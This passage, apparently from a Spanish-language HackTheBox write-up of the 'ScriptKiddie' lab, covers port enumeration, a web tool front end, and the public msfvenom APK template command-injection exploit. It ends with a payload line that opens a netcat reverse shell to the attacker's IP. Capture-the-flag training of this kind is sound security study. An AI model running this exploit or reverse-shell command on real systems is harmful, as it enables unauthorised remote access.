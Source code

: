 
Obtenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :-------|
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 |
| 5000   | HTTP     | Werkzeug httpd 0.16.1 (Python) |

Pues démosle a cada servicio y veamos que podemos romper (:

...

En cuanto al puerto **22** y su versión no tenemos nada. Basándonos en el puerto `5000`:

### Puerto 5000 [⌖](#puerto-5000) {#puerto-5000}

![314page5000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314page5000.png)

Varios apartados donde podemos interactuar y ejecutar instrucciones en el sistema que posteriormente se nos mostraran en el mismo sitio, como por ejemplo, hagamos el primero apartado donde realiza un escaneo de los 100 puertos más populares:

![314page5000_scanTOP100](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314page5000_scanTOP100.png)

Pues exploremos y veamos como podemos colar alguna ejecución de comandos de nuestro lado...

Despues de un rato intentando `command injection` no obtuve nada. Pero pensando en que estarían haciendo los comandos por detrás y como se estarían ejecutando, podemos enfocarnos en el apartado `msfvenom`.

> `msfvenom` en pocas palabras nos permite crear payloads que podemos usar en muchos formatos y aplicaciones.

* [Creating Metasploit Payloads](https://netsec.ws/?p=331).

![314page5000_msfVinit](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314page5000_msfVinit.png)

...

## Explotación [#](#explotacion) {#explotacion}

Si nos fijamos es el único que nos permite interactuar con la ejecución, podemos agregándole un template... Jmm si buscamos en internet `exploit template msfvenom`, obtenemos esto:

* [Metasploit Framework 6.0.11 - msfvenom APK template command injection](https://www.exploit-db.com/exploits/49491).

Se trata de una vulnerabilidad que permite ejecutar comandos en la generación de un APK para Android como template.

Viendo el código debemos cambiar los comandos que queremos ejecutar, intentemos establecer una Reverse Shell de una vez:

```py
...
# Change me·
payload = 'nc 10.10.14.47 4433 -e /bin/bash'
...
```
